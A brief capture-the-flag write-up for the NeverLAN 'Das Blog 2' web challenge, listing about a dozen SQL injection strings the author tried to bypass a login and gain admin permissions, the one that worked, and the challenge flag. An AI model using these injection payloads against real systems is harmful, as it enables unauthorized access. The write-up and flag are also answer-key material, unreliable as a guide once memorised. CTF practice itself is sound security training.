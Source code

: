 [Das Blog 2]
---
Question:
---
	Well, we really showed Johnny. It looks like he made some changes... 
	But he still isn't escaping his inputs. Teach him a lesson.
	https://challenges.neverlanctf.com:1130

Answer
---
	1. This is simialr to the first task, but this time you need to include permissions
	2. After several tries:
	1' or 1=1 -- -
	1' or 1=1 -- -; permissions=admin
	1' or 1=1 -- -'and permission='admin'
	1' or 1=1 -- -'AND permission='admin'
	'-0||'and permission='admin'
	'-0||'and permission='admin' 
	1' or 1=1 and permission='admin' - - 
	1' or 1=1 and permission='admin' -- 
	1' or 1=1 AND permission='admin' - - 
	' OR '1'='1' AND permissions='admin'--
	' OR '1'='1' AND permissions='admin'-- 

	3. This one seemed to do the trick "' OR '1'='1' AND permissions='admin'-- "
	4. Credit to snow - thanks mayn!

Flag:
---
	flag{Pwn3d_W1th_SQL}
